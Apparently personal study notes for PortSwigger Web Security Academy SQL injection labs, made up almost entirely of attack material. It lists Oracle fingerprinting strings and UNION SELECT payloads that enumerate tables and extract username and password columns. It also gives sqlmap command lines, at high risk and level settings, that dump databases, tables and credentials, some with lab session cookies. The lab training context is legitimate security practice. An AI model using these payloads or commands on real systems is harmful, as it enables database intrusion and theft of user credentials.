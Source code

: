 PortSwigger cheat sheet: [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Oracle :

```
Identufy Oracle:
'||(SELECT '')||' -> error
'||(SELECT '' FROM dual)||' -> valid
 
UNION SELECT NULL,NULL FROM dual-- (because dual is a table we knoe in oracle)

'+UNION+SELECT+table_name,NULL+FROM+all_tables--

'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--

'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--

sqlmap -u 'https://0a6d00360460e7dd8187719900d200c5.web-security-academy.net/filter?category=Tech+gifts' -p category --sql-query "SELECT USERNAME_LASZLI, PASSWORD_GLJIEZ FROM PETER.USERS_NYXISJ"
```

SQLMAP options

```js
magia =  sqlmap -u "https://<exam-url>/searchadvanced?searchTerm=1*&organizeby=DATE&blog_artist=" --
cookie="_lab=<change-me>; session=<change-me>" --batch --risk 3 --level 5 --dbms=postgresql --dbs

sqlmap -u '' --cookie='' --random-agent -p order --level 5 --risk 1 --batch --dbms='postgresql'



-u url (to get database type)
--dbs (to get database name)
-D 'x' --tables (to get table names)
-D 'x' -T 'y' --columns (to get column names)
--sql-query "SELECT 'z' FROM 'y':'x' WHERE..."


Cookies:
sqlmap -u 'https://0a1f00dd030c941881478ad000eb009a.web-security-academy.net/' --cookie='TrackingId=WKeIOdvGpLvJVfLQ; session=cmJ9qZmmemaKrj2qg5qFXZOFVNF3D8eo' -p TrackingId --level 2 

//COMANDOS PRUEBAS FELIPE.

//Traerse las bases de datos que hayan:
sqlmap -u "https://ID-LAB.web-security-academy.net/filter?category=Gifts*" --level 5 --risk 3 --batch -p category --dbms=PostgreSQL --dbs --tables --threads 10
//Traerse las tablas de la DB especifica:
sqlmap -u "https://0a5e004b03c5d49d80cf26f800f400de.web-security-academy.net/filter?category=Gifts*" --level 5 --risk 3 --batch -p category --dbms=PostgreSQL -D 'public' --tables --threads 10
//Traerse las columnas de la tabla de la DB especifica:
sqlmap -u "https://0a5e004b03c5d49d80cf26f800f400de.web-security-academy.net/filter?category=Gifts*" --level 5 --risk 3 --batch -p category --dbms=PostgreSQL -D 'public' -T 'users_kheqip' --columns --threads 10
//Traerse los datos con un SQL QUERY: 
sqlmap -u "https://0a5e004b03c5d49d80cf26f800f400de.web-security-academy.net/filter?category=Gifts*" --level 5 --risk 3 --batch -p category --dbms=PostgreSQL -D 'public' -T 'users_kheqip' --sql-query "SELECT username_kgpojd,password_diyspr FROM users_kheqip" --threads 10

```
